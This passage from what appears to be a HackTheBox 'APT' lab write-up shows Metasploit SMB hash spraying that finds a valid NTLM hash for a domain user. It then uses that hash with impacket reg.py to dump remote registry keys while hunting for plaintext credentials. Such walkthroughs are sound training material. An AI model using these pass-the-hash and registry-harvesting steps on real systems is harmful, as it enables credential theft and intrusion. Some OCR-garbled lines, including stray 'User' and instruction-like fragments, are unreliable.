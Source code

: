 ```
[-] dead:beef::b885:d62a:d679:573f:445 - dead:beef::b885:d62a:d679:573f:445 - Failed: 'htb.local\henry.vinson:aad3b435b
51404eeaad3b435b51404ee:e51bd5df404f88091ccf66ff1f802729',
[!] dead:beef::b885:d62a:d679:573f:445 - No active DB -- Credential data will not be saved!
[+] dead:beef::b885:d62a:d679:573f:445 - dead:beef::b885:d62a:d679:573f:445 - Success: 'htb.local\henry.vinson:aad3b435
b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb'
[*] apt.htb.local:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smb/smb_login) > 

```

What I provided is an example of what you have to do, and we can see the valid hash is `htb.local\henry.vinson:aad3b435
b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb` 

## User

But we're still done yet, this was also in my opinion a pretty hard part of the box, as I'm not very sure how you'd realize or know this, but I can assume that this is very common attack vector. You can in some situations read the registry with `reg.py` from `impacket`, we can read the registry which will reveal plaintext credentials.

```sh

utopia@utopia: smb » python3 /opt/impacket/examples/reg.py
htb.local/henry.vinson@apt.htb.local -hashes
aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb query -s
-keyName HKU\\
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[!] Cannot check RemoteRegistry status. Hoping it is started...
\Console\
        ColorTable00    REG_DWORD        0x0
        ColorTable01    REG_DWORD        0x800000
        ColorTable02    REG_DWORD        0x8000
        ColorTable03    REG_DWORD        0x808000
        ColorTable04    REG_DWORD        0x80
        ColorTable05    REG_DWORD        0x800080
        ColorTable06    REG_DWORD        0x8080
        ColorTable07    REG_DWORD        0xc0c0c0
        ColorTable08    REG_DWORD        0x808080
        ColorTable09    REG_DWORD        0xff0000
        ColorTable10    REG_DWORD        0xff00
        ColorTable11    REG_DWORD        0xffff00
        ColorTable12    REG_DWORD        0xff
        ColorTable13    REG_DWORD        0xff00ff
        ColorTable14    REG_DWORD        0xffff
        ColorTable15    REG_DWORD        0xffffff
        CtrlKeyShortcutsDisabled        REG_DWORD        0x0
        CursorSize      REG_DWORD        0x19
        EnableColorSelection    REG_DWORD        0x0
        ExtendedEditKey REG_DWORD        0x1
        ExtendedEditKeyCustom   REG_DWORD        0x0
        FaceName        REG_SZ   __DefaultTTFont__
        FilterOnPaste   REG_DWORD        0x1
        FontFamily      REG_DWORD        0x0
        FontSize        REG_DWORD        0x100000
        FontWeight      REG_DWORD        0x0
        ForceV2 REG_DWORD        0x1
        FullScreen      REG_DWORD        0x0
        HistoryBufferSize       REG_DWORD        0x32
        HistoryNoDup    REG_DWORD        0x0
```